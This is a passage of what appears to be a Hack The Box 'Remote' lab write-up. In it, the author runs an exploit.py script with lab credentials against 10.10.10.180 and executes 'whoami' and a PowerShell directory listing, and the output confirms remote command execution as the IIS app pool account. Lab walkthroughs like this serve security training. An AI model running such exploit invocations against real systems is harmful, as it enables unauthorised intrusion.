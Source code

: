 exploit.py

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```

it worked. now it was time to enumerate the system \(very slow however\)

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ls'

    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                               
d-----        2/19/2020   3:11 PM                Config                                             
d-----        2/19/2020   3:11 PM                en                                                 
d-----        2/19/2020   3:11 PM                en-US                                              
d-----         7/5/2020   7:07 AM                History                                            
d-----        2/19/2020   3:11 PM                MetaBack                                           
...snipped...           
-a----        2/19/2020   3:11 PM         169984 XPath.dll
```

```text
Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                               
d-----        2/19/2020   3:12 PM                .NET v2.0                                          
d-----        2/19/2020   3:12 PM                .NET v2.0 Classic                                  
d-----        2/19/2020   3:12 PM                .NET v4.5                                          
d-----        2/19/2020   3:12 PM                .NET v4.5 Classic                                  
d-----         7/5/2020   7:05 AM                Administrator                                      
d-----        2/19/2020   3:12 PM                Classic .NET AppPool                               
d-r---        2/20/2020   2:42 AM                Public
```
